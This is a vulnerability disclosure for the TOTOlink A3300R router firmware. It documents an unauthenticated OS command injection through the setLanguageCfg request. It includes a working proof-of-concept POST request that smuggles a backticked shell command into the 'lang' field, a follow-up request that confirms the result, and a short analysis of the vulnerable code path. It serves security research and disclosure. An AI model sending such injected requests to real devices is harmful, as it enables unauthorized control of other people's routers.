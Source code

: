 # TOTOlink A3300R V17.0.0cu.557_B20221024 Unauthenticated RCE

## Product Information
Device: TOTOlink A3300R<br>
Firmware Version: V17.0.0cu.557_B20221024<br>
Manufacturer's website information：https://www.totolink.net/<br>
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html<br>

## Vulnerability Description
The device does not require authentication for the setLanguageCfg request, which is vulnerable to OS command injection.

### POC
```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.44.132
Content-Length: 69
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.44.132
Referer: http://192.168.44.132/login.html
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh;q=0.6
Connection: close

{"lang":"en`ls>/web/cmdi.txt`","langAutoFlag":"1","topicurl":"setLanguageCfg"}
```

injection the command "ls>/web/cmdi.txt"

![poc1](img/poc1.jpg)

check the result.
```
GET /cmdi.txt HTTP/1.1
Host: 192.168.44.132
Content-Length: 0
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.44.132
Referer: http://192.168.44.132/login.html
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh;q=0.6
Connection: close


```

![poc2](img/poc2.jpg)

## Analyse
sub_40FFF4 will handle the setLanguageCfg request. sub_40FFF4 firstly get lang and langAutoFlag from request body, then pass to Uci_Set_Str function.

![ana1](img/ana1.jpg)

Uci_Set_Str function Splicing uci command, and pass to CsteSystem function.

![ana2](img/ana2.jpg)

CsteSystem wraps the command and then passes it to execv to execute the command.

![ana3](img/ana3.jpg)
